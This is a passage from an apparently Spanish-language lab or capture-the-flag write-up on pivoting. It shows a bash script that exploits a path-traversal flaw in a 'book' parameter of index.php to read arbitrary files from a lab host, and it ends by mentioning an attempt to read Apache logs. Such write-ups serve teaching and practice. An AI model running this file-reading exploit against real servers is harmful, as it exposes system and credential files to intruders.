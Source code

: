 ```bash
  exit 1
}

#Ctrl + c
trap ctrl_c INT # esto va a la funcion ctrl_c()

declare -i parameter_counter=0 # declaramos una variable int

function fileRead(){
  filename=$1
  echo -e "\n${yellowColour}[+]${endColour}${grayColour} Este es el contenido del archivo ${endColour}${redColour}$filename${endColour}${grayColour}:${endColour}\n"
  curl -s -X GET "http://192.168.1.153:8593/index.php?book=../../../../../../../$filename"
}

function helpPanel(){
  echo -e "\n${yellowColour}[i]${endColour}${grayColour}Uso:${endColour}\n"
  echo -e "\t${redColour}h)${endColour}${blueColour} Mostrar este panel de ayuda${endColour}"
  echo -e "\t${redColour}f)${endColour}${blueColour} Proporcionar ruta del archivo a leer\n${endColour}"
  exit 0
}

#Menu cuando quieres que se te pase un argumento poner : despues de la opcion 
while getopts "hf:" arg; do
  case $arg in
    h) ;; # no hace nada por que es un panel de ayuda
    f) filename=$OPTARG; let parameter_counter+=1; # lo que le pases lo mete en la variable filename
  esac
done

if [ $parameter_counter -eq 1 ]; then
  fileRead "$filename"
else
  helpPanel
fi

```

Vamos a ver si podemos ver los `logs` de apache y podemos

![](/assets/images/vh-writeup-pivoting2/8.png)
